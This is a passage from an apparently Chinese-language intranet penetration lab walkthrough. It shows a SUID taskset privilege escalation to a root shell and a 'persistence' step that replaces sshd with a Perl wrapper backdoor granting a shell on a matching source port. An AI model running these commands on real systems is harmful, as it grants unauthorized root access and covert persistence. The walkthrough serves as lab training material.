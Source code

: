 ![471.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=c9e2ca10-4592-484e-be33-e45cf8656003.png)

```
ls -la /usr/bin/taskset
whoami					\# simadmin
taskset 1 /bin/bash -p
whoami					\# root

```

![47.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=cfce9ea5-83cf-4e12-97e6-addd2932d966.png)

实验步骤十二 >>> 权限持久化（后门）

### 12\. 权限持久化（后门）

为了能够持续的对目标进行控制，我们可以通过在目标机器上留下一个后门，方便我们下次继续控制目标，并得到`root`权限。

![48.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=588c72ca-33d7-47d8-b121-81ad7842eb2f.png)

利用`SSH Server Wrapper`技术，在`dev`服务器留下`SSH`登录后门，

```
cd /usr/sbin/
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..LF/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

```
